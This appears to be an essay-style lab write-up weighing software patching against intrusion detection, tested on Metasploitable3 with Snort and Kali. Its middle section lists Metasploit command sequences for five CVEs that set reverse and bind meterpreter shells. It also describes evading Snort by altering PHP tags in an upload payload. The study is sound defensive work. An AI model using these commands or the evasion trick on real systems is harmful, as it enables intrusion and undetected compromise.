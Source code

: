 NOTE: A markdown version with improved readability can be found at <>. The repository also contains the snort.conf and any modified rules used in the examples, and the modified payload to avoid Snort detection.

Is it easier to to fix the application than to detect attacks? To look into this question, we will look at the overview of both statements, and think about the pros and cons of each approach. We will also look at some attack scenarios made using virtual machines, with 1 running an intrusion detection system and vulnerable web applications, and another virtual machine running software that could exploit these rules. 
Fixing the application in a perfect world would make more sense. After an exploit has been discovered or disclosed, the application vendor would fix and publish a new version where the flaw is fixed, and anyone using the application would update it. However due to various reasons this does often not happen as smoothly. For example the product is not being supported anymore so any patches are not being released, the flaw is not critical enough to take time away from developing features. From the flaw detection side, the reporter might not disclose it in order to profit from selling the information. Some companies even discourage sending vulnerability reports by trying to sue anyone who sends them information about security vulnerabilities in their application. This is a sure way to make anyone finding vulnerabilities to go looking other sources to benefit from the information.
The third part of this puzzle is the user of the application. If they do not keep their software up-to-date, the vulnerability will not be fixed. This might be due to ignorance, or laziness to update the software. In some cases other pieces of software depend on that exact version of software, making it impossible to update without breaking some business solutions. This can often happen with large enterprises with multiple business-critical applications depending on each other and running for years. The problem will become more difficult to solve due to more parts of the business depending on the working configuration and administrators responsible for updating the integrations leaving the company. Until at some point even a minor but critical security update becomes too cumbersome to update. At this stage some companies will as a precaution they will wrap their systems infrastructure using an Intrusion Detection System. Which brings us to the second statement, would it be easier to just detect attacks and deal with them as they come?
Intrusion Detection Systems range from antivirus-software running on a home computer to complex company-wide monitoring and reporting systems that monitor all network and application activity within the company. Depending on the kind of software they might do complex analysis on network traffic or check application signatures for known viruses. Some systems might even track and monitor employee activity inside the systems to report on threats like employees trying to access sensitive data or running potentially malicious software. Intrusion Detection Systems take pressure keeping track of each piece of software being up-to-date, and even updated software is no guarantee that the systems they are running on are safe. IDS' are often standalone or packaged solutions which keep up-to-date themselves, with daily updates being able to detect the newest threats. Companies offering IDS' often have great support systems, and larger ones can tailor solutions for companies depending on their needs and possible threats. They also offer a wide range of features, and can offer more general security to companies networks, having overall-security instead of maintaining and fixing individual exploits and keeping individual pieces of software updated. Since IDS' can also monitor and report suspicious network activity, they have more chance of discovering a sophisticated attacker, or someone gathering information over a long period of time. By tracking normal network activity over a period of time, you can establish a sort of baseline for normal activity, and look at places where network activity differs from normal operations. So why aren't IDS' the superior solution? Firstly, security software is still software. It has bugs, oversights and even security flaws attackers can exploit. They need to be kept updated like any other software. Relying too much on an IDS' is also a great way for any attackers to only have one obstacle to overcome. The attacker can focus all resources and research on the IDS itself, finding any methods to break or bypass it. Once that is done, and anything behind the IDS can usually be extremely vulnerable. They also fall victim to the same problems as any other application developer might face with updating software, as discussed earlier in the essay.

Lets look at some examples. An example target system is MetaSploitable3 (https://github.com/rapid7/metasploitable3), which is designed to run intentionally vulnerable software. We install Snort (https://www.snort.org/) which is a network monitoring tool which can be used to run as an intrusion detection system. Then we use Kali (https://www.kali.org/), which is a version of Linux with multiple penetration testing tools used to detect and exploit vulnerabilities in software.

Technical information
Target machine:
MetaSploitable3 - Version built with commit https://github.com/rapid7/metasploitable3/commit/7f772162232d2a904be22588a0295742b3cd5d4e
Snort - Version 2.9.9.0 and using rules "snortrules-snapshot-2976"
WinPCap - Version 4.1.1, required by Snort
Snort.conf used - <url>

Attacker machine:
Kali version - kali-linux-2016.2-amd64 running as Live-CD

Legend used in reports
<REMOTEHOST> = IP address of the target machine
<LOCALHOST> = IP address of the attacker machine
<SNORTINTERFACE> = Network interface of the target machine that Snort is listening on. These can be listed in Snort using the command snort.exe -W

Command used to run Snort: 
`snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none`

Attacks discovered by Snort IDS
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	1. `use exploit/multi/http/struts_dmi_rest_exec`
	2. `set RHOST <REMOTEHOST>`
	3. `set RPORT 8282`
	4. `set payload java/meterpreter/reverse_tcp`
	5. `set LHOST <LOCALHOST>`
	6. `run`

2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	1. `use exploit/multi/elasticsearch/script_mvel_rce`
	2. `set RHOST <REMOTEHOST>`
	3. `set payload java/meterpreter/reverse_tcp`
	4. `set LHOST <LOCALHOST>`
	5. `run`

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. `use exploit/multi/http/axis2_deployer`
	2. `set RHOST <REMOTEHOST>`
	3. `set RPORT 8282`
	4. `set payload java/meterpreter/reverse_tcp`
	5. `set LHOST <LOCALHOST>`
	5. `run`

Now lets look at 2 attacks undiscovered by Snort IDS:
1. CVE-2015-2342 - Java JMX Server Insecure Configuration Java Code Execution
	1. `use exploit/multi/misc/java_jmx_server`
	2. `set RHOST <REMOTEHOST>`
	3. `set RPORT 1617`
	4. `set payload java/meterpreter/reverse_tcp`
	5. `set LHOST <LOCALHOST>`
	6. `run`
The reason the former exploit was not discovered was that the rule monitoring the exploit was not enabled. In real life this sort of oversight is possible if the IDS software is configured incorrectly.

The following exploit is discovered by Snort, but by modifying the payload code we can easily bypass Snort detection, 
demonstrating how IDS systems can in some cases be made ineffective.
Note: If you get the following error when performing the exploit:
Exploit failed: NoMethodError undefined method '[]' for nil:nilClass
Make sure you have version with this fix implemented:
https://github.com/rapid7/metasploit-framework/commit/f838c9990fa3a7858297ada47288cc67f04d87e4
The <PATHTOEXPLOIT> file can be found here <URL>

2. CVE-2016-2019 - Wordpress Ninja Forms Unauthenticated file upload
	1. `use exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload`
	2. `set RHOST <REMOTEHOST>`
	3. `set RPORT 8585`
	4. `set TARGETURI /wordpress/`
	5. `set FORM_PATH /index.php/king-of-hearts/`
	To alert Snort:
	6. `set payload php/meterpreter/bind_tcp`
	7. `set LHOST <LOCALHOST>`
	8. `run`
	To not alert Snort:
	6. `set payload generic/custom`
	7. `set payloadfile <PATHTOEXPLOIT> (e.g /root/cve_2016-2019_undetected.php)`
	8. `run`
Avoiding the alert was discovered by looking at the rules of the alert. It was monitoring malicious upload code by looking for `<?`-php tags. Replacing these tags was in the payload was the only thing needed to avoid detection.

So looking at the examples even with IDS some attacks can slip by undetected. So from a security standpoint, which would be the better solution? The correct solution lies in using both. Having the latest version of software running on the systems is priority here, with work needed to make sure they work correctly with other software and are kept up to date. An IDS should be deployed to monitor overall network activity and to those reports should be used to identify the biggest risks in the system and then finding ways to fix them. Relying on both options is the best way to minimize threat to systems, and giving attackers difficulty finding exploits without being detected is the best way to discourage them from trying to infiltrate your systems.